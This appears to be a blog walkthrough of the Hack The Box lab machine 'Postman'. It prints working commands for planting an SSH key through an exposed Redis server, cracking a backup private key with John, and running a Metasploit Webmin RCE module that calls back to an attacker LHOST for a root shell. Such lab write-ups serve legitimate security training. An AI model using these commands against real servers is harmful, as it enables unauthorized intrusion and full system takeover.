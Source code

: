 ```yaml
---
layout: page
title: Postman
order: 4
hide: true
auto-header: none
---
```


<a href="#" class="image centered"><img src="/assets/images/postman.png" alt="postman" /></a>

<h2>Postman</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.160   postman.htb`

<h3>Initial Scan</h3>
Next up we run our standard NMAP scan `nmap -sC -sV postman.htb` as well as a full port scan in the background `nmap -sC -sV -p- postman.htb &`. We get results back for 4 ports: 22 SSH open, 80 HTTP open running Apache/2.3.29 on Ubuntu, 6379 redis open running Redis key-value store 4.0.9 and 10000 HTTP open running MiniServ 1.910 (Webmin httpd).

![Initial NMAP scan](/assets/images/postman-initial-scan.png)

<h3>Web enumeration</h3>
Before we take a manual look at the webservers on ports 80 and 10000, we run a gobuster in the background `gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://postman.htb`. However this yields nothing of interest.

When we manually look at `http://postman.htb` we see nothing of interest. Moving on we try `http://postman.htb:10000`, we get an error telling us the webserver is running SSL and to try `https://Postman:10000` instead. When we navigate to `https://postman.htb:10000` and accept the certificate, we can see a Webmin login panel.

A quick search for *webmin* using searchsploit gives us quite a few exploits, since nmap told us the Webmin version running on the box is `1.910` we can look at `Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)` using `searchsploit -x exploits/linux/remote/46984.rb`. Looking through the script and reading the description we can quickly tell we have to be authenticated and authorized to the Package Updates module. Since we don't have any form of credentials yet we can move on.

![searchsploit webmin](/assets/images/postman-ss-webmin.png)

<h3>Exploiting Redis to drop a SSH key</h3>
For the next part we will be using the Redis-CLI, read the [Redis Documentation](https://github.com/antirez/redis) on how to install.
Using `redis-cli -h 10.10.10.160` let's us anonymously authenticate with the redis server on port 6379. Running the `DBSIZE` command tells us the current database is empty.
With the `CONFIG GET *` command we can view the running configuration. We can use Redis' save function to write data to a file. Using this vulnerability we can drop a SSH key on the box with the following commands.

```
ssh-keygen -t rsa                                           # generate ssh key
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt  # write public key to file preceeded and ended with two new lines
cat foo.txt | redis-cli -h 10.10.10.160 -x set pub          # direct the output of foo.txt to a dbset called 'pub'
redis-cli -h 10.10.10.160                                   # connect to redis
CONFIG SET DIR "/var/lib/redis/.ssh/"                       # configure the directory to write in
CONFIG SET slave-read-only no                               # disable slave read only
CONFIG SET dbfilename "authorized_keys"                     # set the filename to write our database to
SAVE                                                        # save the redis db to file
EXIT                                                        # exit
```

![redis exploit](/assets/images/postman-redis-exploit.png)

Next we can SSH into the box with the user **redis** `ssh -i id_rsa redis@10.10.10.160`

![redis ssh](/assets/images/postman-redis-ssh.png)

<h3>Cracking SSH key to gain user</h3>
With our initial shell on the box secured, we can start looking around for interesting files. Before we start running scripts like [LinEnum](https://github.com/rebootuser/LinEnum) and [Jalesc](https://github.com/itsKindred/jalesc) there are a couple of `find` commands I like to run to get a quick overview of what's on the box.

```
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'                                         #find user owned files
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'                                    #find writeable files
find / -readable 2>/dev/null |egrep -v '(/proc|/run|/dev)' | egrep '\.bak|id_rsa|\.pub|\.key'   #find backups, ssh keys, key files,etc.
```

The last one gives a nice hit: `/opt/id_rsa.bak`. We can copy the file to our current directory using `scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .` from our host terminal.

![redis find backups](/assets/images/postman-find-backups.png)

Next we need to convert the SSH key to a format which is compatible with JohnTheRipper, we can do this with `ssh2john.py id_rsa.bak > id_rsa.hash`. Now we can attempt to crack it `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`. After a couple of seconds John finds a password for the key.

![john cracking ssh-key](/assets/images/postman-john-ssh.png)

Now that we have a cracked SSH key, we can try logging in with it. If we inspect the contents of `/etc/passwd` we can see there is another user on the box called **Matt**.
Unfortunately the key does not appear to be active anymore and the connection will get closed. However we can use the password to change to the user Matt from our Redis shell with `su - Matt`. Now we can grab the **User** flag `cat user.txt`.

![Matt shell](/assets/images/postman-matt-shell.png)

<h3>Exploiting Webadmin RCE to get root</h3>
Time to move on from **User** and get **root**. Now that we have a set of credentials, let's return to the webmin login panel and try logging in with them. Success! Since we have working credentials and can access the Update Packages module, we can try our exploit we discovered earlier.

```
msfconsole
use exploit/linux/http/webmin_packageup_rce
set USERNAME Matt
set PASSWORD co************
set RHOSTS 10.10.10.160
set RPORT 10000
set SSL true
set LHOST 10.10.14.<your-ip-here>
exploit
```

We got our shell. We can upgrade it using `python -c "import pty;pty.spawn('/bin/bash');"`. and grab the **root** flag `cat /root/root.txt`.

![root shell](/assets/images/postman-root-shell.png)